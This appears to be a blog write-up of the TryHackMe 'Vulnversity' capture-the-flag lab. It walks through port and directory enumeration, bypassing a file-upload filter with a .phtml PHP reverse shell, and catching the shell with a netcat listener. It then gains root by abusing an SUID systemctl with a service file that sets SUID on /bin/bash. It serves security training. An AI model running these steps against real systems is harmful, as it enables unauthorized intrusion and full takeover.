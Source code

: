 ```yaml
---
title: Tryhackme Vulnversity Ctf Writeup
author: krygennn
date: 2021-10-9 18:04
categories: [Blogging,cyber-security]
image:
    src: /assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln1.jpg
    alt: TRYHACKME VULNVERSITY
tags: [ctf,pentesting,linux-privesc,bruteforce,cracking,reverse-shell,php,shell-injection]
---
```

[**Solve Yourself >>**](https://www.tryhackme.com/room/vulnversity)

# TRYHACKME VULNVERSITY - CTF WRITEUP 
Vulnversity is a machine that combines reconnaissance, web attack vectors and privilege escalation methods together.
<br>
<br>
## 1-Enumeration
<br>
Let's start with enumerating the host.I will use Network Mapper (`nmap`) tool in order to scan and probe opened ports and active services to find my attack vector. 

| Parameter  | Functionality                                      |
|:-----------|:---------------------------------------------------|
|-sS         |SYN Stealth Scan (Half TCP Connect scan)            |
|-sV         |Probe open ports to determine service/version info  |
|-O          |Enable OS detection.                                |
|-T4         |T{0-5} Set scan speed, higher is faster.            |
|-p-         |Scan all 65536 ports.                               |
|-oN         |Outputfile                                          |


Full command: `nmap {machine IP} -sV -sS -O -T4 -p- -oN vulnversity.nmap`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln2.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see from the results, we have got six different ports active to create our attack vector.If you do your research and investigate whether one of these services have any vulnerabilities or not, you will return to your home empty handed.You can try anonymous login to FTP protocol, or try to make a SSH connection but you would fail just like I did.None of these services have any vulnerabilities that would put us in the target system.
 
Other than that **"3333/tcp open  http   Apache httpd 2.4.18 ((Ubuntu))"** catches the eye, so lets start to investigate the webpage that the host is running on its port 3333.

![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln3.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Fire up your browser and type **{machine IP}:3333** to your address bar.You will see the webpage shown above.Nothing suspicious there, so lets start to extract the directories with the help of the `gobuster` tool.

| Parameter     | Functionality                                      |
|:--------------|:---------------------------------------------------|
|dir -u         |URL and the port where web server is running        |
|-w             |Wordlist that contains possible directory names     |

Full command: `gobuster dir -u http://{MachineIP}:3333 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt`

[**Seclist's Wordlist Pack >>**](https://github.com/danielmiessler/SecLists)
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln4.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Let's go for `http://[IP]:3333/internal`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln5.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
It seems like we've find our playground :) Website have got an upload functionality.
<br>
<br>
## 2-Exploitation
<br>
First thing came into my mind was to upload a php reverse shell, so let's try it out.

[**PHP Reverse Shell Script >>**](https://www.tryhackme.com/room/vulnversity)
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln6.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Download the script by using **curl**.However in order to make it work, we need to make some configurations in the script to make it work.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln7.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Change **$ip** to your own machines ip (tryhackme's vpn tunnel) ,define the port as any random **$port**.I've changed it to the 8888 while it was 1234 by default.

 Configurations are all done ! Now, it is time for us to upload the reverse shell to the web server.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln8.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
**Note**:My machine shutted it down while creating this post, so I had to restart it. That is why the ip have changed, don't worry :)

It seems like .php extension is not allowed.However ,php extension is not the only extension that we can use, we have got couple more.You can try all of them manually, but come on, let's write a python script :)) 
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln9.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
[**Download the php bruter script >>**](https://www.tryhackme.com/room/vulnversity)
Run it.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln10.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
**.phtml** is the working extension. Rename the payload, **php_reverse_shell.php** into **php_reverse_shell.phtml**, and than upload it.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln11.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Now we have successfully injected our reverse shell script.However we also need to listen incoming connections from the server.Therefore we will use Netcat (**nc**) to listen to the port 8888, which we set in the script before.

|Parameter | Functionality                                     |
|:---------|:--------------------------------------------------|
|-n        | Do not resolve hostnames via DNS                  |
|-l        | Bind and listen for incoming connections          |
|-v        | Set verbosity level (can be used several times)   |
|-p        | Specify source port to use                        |

Full command: `nc -nvlp 8888`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln12.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
While listening to port 8888, we need to activate the script that we just uploaded.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln13.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Visit this URL >> `http://{machineIP}:3333/internals/uploads`, and than click to the reverse php 
shell script that you have uploaded. 
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln14.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Excellent, we are in !
<br>
<br>
## Flag Capturing and Privilege Eseclation
<br>
Nevertheless, this shell is not stable righ now, we need to spawn a python shell.
<br>Run `python -c 'import pty;pty.spawn("/bin/bash")'`, and also `export TERM=xterm`.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln15.jpg){: .shadow style="max-width: 80%" .normal} 
<br>

#### 1-User Flag
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln16.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
In order to get root flag, we have to escalate our privileges, let's search for SUID binaries.If you are not familiar with SUID executables, I recommend you to make your research, than come back, but basically, when you executing a SUID file, you are executing it with it's owner's permissions.We will use **find** command to scan for those binaries.

| Parameter              | Functionality                                          |
|:-----------------------|:-------------------------------------------------------|
| /                      | Search from the root directory                         |
|-type f                 | Only search for files                                  |
|-user root              | Only find the files owned by root                      |
|-perm -u=s              | Only find the files with SUID bit set                  |
|2>/dev/null             | Redirect all stderr outputs to device null             |

Full command: `find -type f -user root -perm -u=s 2>/dev/null`
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln17.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
Some of those binaries have set uid bit by default, however **/bin/systemctl** should not have that SUID permission by default,so let's search how we can exploit that.
[**GTFOBins >>**](https://gtfobins.github.io/)
GTFOBins is a github project, and it is curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.Click the link given above and search fore **systemctl**.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln18.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
t seems like one way to exploit that SUID set systemctl is creating a temporary service.Since systemctl's burden is coordinate the services, it makes sense.However we will need to configure that service file.
#### Service file
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
I have manually changed the systemctl location in the given code from relative to static directory,and also ExecStart will set SUID perm to /bin/bash.

Copy and paste the lines given above to shell (Press enter two times after you paste it), and than check the /bin/bash's file permissions.
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln19.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see, /bin/bash binary now have 's' permission, which indicates that it is a SUID executable.
Run `bash -p` and you are good to go.
#### 2-Root Flag
![Window Shadow](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln20.jpg){: .shadow style="max-width: 80%" .normal} 
<br>
As you can see euid (Effective user id) set to 0 which belongs to root.Now you can get the root flag.

That is all for this machine, thank you for reading :)

